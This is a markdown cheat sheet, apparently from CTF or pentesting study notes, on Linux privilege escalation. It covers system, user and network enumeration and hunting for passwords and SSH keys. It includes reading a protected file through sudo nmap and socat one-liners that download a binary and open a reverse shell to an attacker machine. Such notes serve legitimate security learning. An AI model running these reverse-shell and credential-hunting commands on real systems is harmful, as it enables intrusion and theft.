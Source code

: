 # Linux privilege escalation

## System Enumeration

- `hostname` will return the hostname of the target machine
- `uname -a` Will print system information
- `cat /proc/version` provides information about the target system processes
- `cat /etc/issue` contains some information about the operating system but can be changed
- `ps` see the running processes
  - `ps -A` View all running processes
  - `ps axjf` View process tree
  - `ps aux` The aux option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x). 
  - `ps aux | grep root`
- `env` will show environmental variables
- `lscpu` gives info about the architecture
- `ls -la /etc/cron.daily/` check daily cronjobs
- `cat /etc/crontab` check the crontab
- `lsblk` check for file system and additional drives

### PSPY

- PSPY is a tool to look for running processes
- We can get it [here](https://github.com/DominicBreuker/pspy)
- And then we just need to launch it `./pspy64 -pf -i 1000` The -pf flag tells the tool to print commands and file system events and -i 1000 tells it to scan profcs every 1000ms (or every second).

## User enumeration

- `whoami` gives username
- `ìd` general overview of the user’s privilege level and group memberships
- `cat /etc/passwd` list of users on the system
  - `cat /etc/passwd | grep home | cut -d ":" -f 1` this should return only users (and no service accounts)
- `cat /etc/shadow` hash store file
- `cat /etc/groups`
- `history` will show previous commands
- `sudo -l` what can we run as sudo. Example

  ```
  sudo -l
  Matching Defaults entries for cerealkiller on ip-172-31-63-238:
  	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  User cerealkiller may run the following commands on ip-172-31-63-238:
	  (phantom) NOPASSWD: ALL
	  (vimuser) NOPASSWD: /usr/bin/vim
	  (nmapuser) NOPASSWD: /usr/bin/nmap
  ```
- `sudo -u phantom cat /home/phantom/flag.txt` execute a command with another user
- `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null` Find writable directories
- `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null` Find writable files

## Network Enumeration

- `ifconfig` information about the network interfaces of the system
- `ip add` (similar to ifconfig)
- `ip route` show network routes
- `arp -a` or `ip neigh`
- `netstat` gather information on existing connections
  - `netstat -a` shows all listening ports and established connections.
  - `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
  - `netstat -l` list ports in “listening” mode. These ports are open and ready to accept incoming connections. 
    This can be used with the “t” option to list only ports that are listening using the TCP protocol (below)
  - `netstat -s` list network usage statistics by protocol (below) This can also be used with the `-t` or `-u` options to limit the output to a specific protocol.
  - `netstat -ltp` list connections with the service name and PID information and listening ports.
  - `netstat -i` Shows interface statistics.
  - `netstat -ano` `-a` Display all sockets, `-n` Do not resolve names, `-o` Display timers

## Password Hunting

- `grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null` we can also search for "PASSWORD=" to narrow the search
- We can also hunt down SSH keys `find / -name authorized_keys 2> /dev/null` or `find / -name id_rsa 2> /dev/null`

## Misc CTF tricks

### Read file with nmap 

- Being creative with nmap if we do not have rights to read a specific file
  
  ```
  sudo -u nmapuser nmap -iL flag.txt 127.0.0.1
  Starting Nmap 7.60 ( https://nmap.org ) at 2020-06-21 02:54 UTC
  Failed to resolve "HF-B2C56B421F6229316B00A973586AAAD1".
  WARNING: No targets were specified, so 0 hosts scanned.
  Nmap done: 0 IP addresses (0 hosts up) scanned in 0.04 seconds
  ```

### Upgrade a reverse shell to a fully TTY interactive shell  

- Sometimes we will get a shell but it won't be very convenient. There are some ways to upgrade your shells to interactive TTY reverse shell
- [This article on ropnop blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) shows multiple ways to do so.
- `python -c 'import pty; pty.spawn("/bin/bash")'` if you want a quick dirty little fix but not completely interactive this python command works well for python3 it is the same but like this `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- With socat
  - `socat file:`tty`,raw,echo=0 tcp-listen:4444` on your kali
  - `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444` from the victime machine
  - If socat is not installed see [here](https://github.com/andrew-d/static-binaries) for static binaries
  - `wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444`  
  **OR**  
  `wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat` in your kali then put on your python3 webserver  
  and then `wget -q http://YOUR-KALI-IP/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:YOUR-KALI-IP:4444`

## Automated Tools

- We can run one tool and if we do not see anything try another one
- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
  - The color code is very useful we definitely have to investingate things in red and yellow or just in red
- [LinEnum](https://github.com/rebootuser/LinEnum )
- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)


## Resources

{% embed url="https://academy.tcm-sec.com/p/linux-privilege-escalation" %} Linux Privesc on TCM-Security Academy {% endembed %}  
{% embed url="https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/" %} Basic Linux Privesc {% endembed %}  
{% embed url="https://gtfobins.github.io/" %} GTFoBins a curated list of Unix binaries {% endembed %}  
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md" %} Linux - Privilege Escalation - Payload all the things {% endembed %}  
{% embed url="https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist" %} Checklist - Linux Privilege Escalation {% endembed %}  
{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html" %} Sushant 747's Guide (Country dependant - may need VPN){% endembed %}  
{% embed url="hhttps://github.com/TCM-Course-Resources/Linux-Privilege-Escalation-Resources" %} Linux-Privilege-Escalation-Resources {% endembed %}  
